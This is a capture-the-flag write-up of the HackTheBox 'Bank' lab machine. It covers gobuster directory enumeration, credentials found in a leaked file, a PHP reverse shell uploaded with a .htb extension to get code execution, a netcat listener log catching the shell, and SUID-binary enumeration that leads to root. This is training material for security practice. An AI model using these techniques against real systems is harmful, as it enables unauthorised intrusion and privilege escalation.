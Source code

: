 ```yaml
---
title: Bank writeup
date: 2022-06-17 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [Easy-box]     # TAG names should always be lowercase
img_path: /assets/img/bank/
image: # Thumbnail 
  src: Bank.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This was one of the easier boxes on the platform. With comments left in the HTML source code and a SUID binary giving root access immediatly. In any case, you can learn some fuzzing on this box since it is required to find the credentials for the ticket page. 

## Foothold

We start by adding bank.htb to our `/etc/hosts`{: .filepath} file. When visiting the site we get greeted with a login page:

![Login page](index.png)

You could try to perform some SQL-injection to bypass the login, but it wont work. Instead we fuzz for directories via gobuster:
```console
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/01/25 20:46:06 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/login.php            (Status: 200) [Size: 1974]                
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/] 
/logout.php           (Status: 302) [Size: 0] [--> index.php]                 
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]    
/server-status        (Status: 403) [Size: 288]                               
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
                                                                                       
===============================================================                                                                                                                                                                             
2022/01/25 21:26:59 Finished                                                                                                                                                                                                                
===============================================================
```

Entering the `/balance-transfer`{: .filepath} dir we find a lot of files. All have the same size, except for one which is much smaller:

![content of /balance-transfer sorted by size](smallfile.png)

Contents of the file can be found below:
```txt
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

Using the credentials to login, we can access a page where we can upload a file. If we view the source code we can see that the developer left a comment saying that any file endning in .htb will be executed as php for debugging purposes.

![Web page source code](source.png)

Uploading a standard php reverse shell and renaming it to something ending in .htb will give a reverse shell when trying to access it after uploading it via the ticket functionality.

![Malicious ticket](ticket.png)

Clicking on the ticket will execute the php code. 
## Privilege escalation
Receiving the reverse shell, we start out by looking at SUID binaries:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/banking]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.29.200] 44466
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 18:14:04 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

One stands out immediatly, namely the file `/var/htb/bin/emergency`{: .filepath}

Simply running it gives us root access. Rooted!